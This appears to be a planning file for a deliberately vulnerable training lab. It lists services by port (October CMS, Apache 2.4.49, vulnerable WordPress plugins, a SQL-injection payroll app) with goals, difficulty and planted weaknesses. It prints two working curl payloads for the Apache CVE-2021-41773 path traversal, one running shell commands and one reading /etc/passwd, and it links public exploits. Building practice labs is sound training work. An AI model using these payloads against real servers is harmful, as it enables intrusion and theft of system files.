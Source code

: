 # October CMS
|Goal|Difficulty|Dependency|Comments|
|---|---|---|---|
|Login to app|2|Yes||

1. **tcp 8511**
2. Post deployment: go to **backend** and configure user and password.
3. password attack, username/password comes from credz

# Apache 2.4.49
|Goal|Difficulty|Dependency|Comments|
|---|---|---|---|
|Discover dir|1|No||
|LFI|2|Yes||
|RCE|4|Yes||
|Shell|4|Yes|extra-mile|

1. **tcp 8512**
2. Hidden dir, Apache 2.4.49 vuln: [CVE-2021-41773 path traversal and RCE in Apache 2.4.49](https://github.com/vulhub/vulhub/tree/master/httpd/CVE-2021-41773) - [EDB-ID 50383](https://www.exploit-db.com/exploits/50383)
3. Provide hint about exploits in hidden dir

```
Exploits:
curl -s --path-as-is -d "echo; id" "172.17.0.1:8512/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh"
curl -s --path-as-is -d "echo; id" "172.17.0.1:8512/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"
```
# Wordpress w/vulnerable plugins
|Goal|Difficulty|Dependency|Comments|
|---|---|---|---|
|Auth bypass|4|No||
|LFI|3|No||
|RCE|3|No||
|Shell|4|No|extra-mile|

1. **tcp 8514**
2. WP latest: [Damn Vulnerable WordPress](https://github.com/vavkamil/dvwp). **Multiple CVEs in plugins**.
3. Weak admin password, change password to something from startrek.
4. Add a second admin with password from rockyou.
```
Need to add database "wordpress" to wordpress_mysql
Need to update db host from "mysql" to "wordpress_mysql" in wp-config.php
Manually activate plugins after finishing installation
```
- [Plugin InfiniteWP Client < 1.9.4.5 Auth Bypass](https://wpscan.com/vulnerability/10011). [EDB-ID 47939](https://www.exploit-db.com/exploits/47939)
- [WordPress File Upload < 4.13.0 - Directory Traversal to RCE](https://wpvulndb.com/vulnerabilities/10132).
- [WP Advanced Search < 3.3.4 - Unauthenticated Database Access and Remote Code Execution (RCE)](https://wpvulndb.com/vulnerabilities/10115)
- [Social Warfare <= 3.5.2 - Unauthenticated Arbitrary Settings Update](https://wpvulndb.com/vulnerabilities/9238). [EDB-ID 46794](https://www.exploit-db.com/exploits/46794)

# startrek payroll
|Goal|Difficulty|Dependency|Comments|
|---|---|---|---|
|SQLi|1|No|user() and database()|
|SQLi|1|No|dump database()|
|SQLi|3|No|extra-mile: hidden loot|

1. **tcp 8515** 
2. SQLi [thomaslaurenson/startrek_payroll](https://github.com/thomaslaurenson/startrek_payroll)
3. Credentials for **authenticated RCE in phpmyadmin 4.8.1** stored in adjacent database.
4. move app to hidden dir that requires long wordlist 
